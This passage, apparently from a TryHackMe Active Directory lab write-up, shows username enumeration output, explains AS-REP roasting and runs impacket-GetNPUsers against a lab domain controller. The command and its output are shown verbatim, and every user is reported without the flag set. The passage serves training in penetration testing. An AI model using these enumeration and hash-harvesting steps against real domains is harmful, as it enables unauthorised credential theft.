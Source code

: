 ```bash
2022/03/15 21:44:09 >  [+] VALID USERNAME:       administrator@THM-AD
2022/03/15 21:44:39 >  [+] VALID USERNAME:       backup@THM-AD
2022/03/15 21:44:53 >  [+] VALID USERNAME:       paradox@THM-AD
2022/03/15 21:46:21 >  [+] VALID USERNAME:       JAMES@THM-AD
2022/03/15 21:46:52 >  [+] VALID USERNAME:       Robin@THM-AD
2022/03/15 21:49:51 >  [+] VALID USERNAME:       Administrator@THM-AD
2022/03/15 21:55:51 >  [+] VALID USERNAME:       Darkstar@THM-AD
```

With this list of valid usernames, we want to find which users have the `UF_DONT_REQUIRE_PREAUTH` flag set.

:::info UF_DONT_REQUIRE_PREAUTH?

Why we want to find users with this flag set:

_"...there is a vulnerable option available for Kerberos users: ‘Do not require Kerberos preauthentication’ (UF_DONT_REQUIRE_PREAUTH). When pre-authentication is enabled, a time stamp is encrypted using the user’s password hash as an encryption key. If the KDC reads a valid time while using the user’s hash to decrypt the time stamp, the KDC knows that the request isn’t a replay of the previous request._

_If pre-authentication is disabled, an attacker can send a request for authentication. The KDC will return an encrypted TGT from which an attacker can retrieve the vulnerable user’s hash and crack it offline. The hash is in krb5asrep format."_

credits: [Alex Fox](https://foxed.github.io/GetNPUsers/)
:::

Let's use `impacket-GetNPUsers` (from your terminal with `impacket` installed):

`impacket-GetNPUsers -outputfile $OUTPUT_FILE -usersfile $INPUT_FILE -debug -dc-ip $AD_IP $DOMAIN/`

```bash
$ impacket-GetNPUsers -outputfile kerb-user.txt -usersfile user-1.txt -debug -dc-ip 10.10.75.101 thm-ad/
Impacket v0.9.25.dev1+20220311.121550.1271d369 - Copyright 2021 SecureAuth Corporation

[+] Impacket Library Installation Path: /home/kali/.local/lib/python3.9/site-packages/impacket
[+] Trying to connect to KDC at 10.10.75.101
[-] User james@THM-AD doesn't have UF_DONT_REQUIRE_PREAUTH set
[+] Trying to connect to KDC at 10.10.75.101
[+] Trying to connect to KDC at 10.10.75.101
[-] User James@THM-AD doesn't have UF_DONT_REQUIRE_PREAUTH set
[+] Trying to connect to KDC at 10.10.75.101
[-] User robin@THM-AD doesn't have UF_DONT_REQUIRE_PREAUTH set
[+] Trying to connect to KDC at 10.10.75.101
[-] User darkstar@THM-AD doesn't have UF_DONT_REQUIRE_PREAUTH set
[+] Trying to connect to KDC at 10.10.75.101
[-] User administrator@THM-AD doesn't have UF_DONT_REQUIRE_PREAUTH set
[+] Trying to connect to KDC at 10.10.75.101
[-] User backup@THM-AD doesn't have UF_DONT_REQUIRE_PREAUTH set
[+] Trying to connect to KDC at 10.10.75.101
[-] User paradox@THM-AD doesn't have UF_DONT_REQUIRE_PREAUTH set
[+] Trying to connect to KDC at 10.10.75.101
[-] User JAMES@THM-AD doesn't have UF_DONT_REQUIRE_PREAUTH set
[+] Trying to connect to KDC at 10.10.75.101
[-] User Robin@THM-AD doesn't have UF_DONT_REQUIRE_PREAUTH set
[+] Trying to connect to KDC at 10.10.75.101
[-] User Administrator@THM-AD doesn't have UF_DONT_REQUIRE_PREAUTH set
[+] Trying to connect to KDC at 10.10.75.101
[-] User Darkstar@THM-AD doesn't have UF_DONT_REQUIRE_PREAUTH set
```
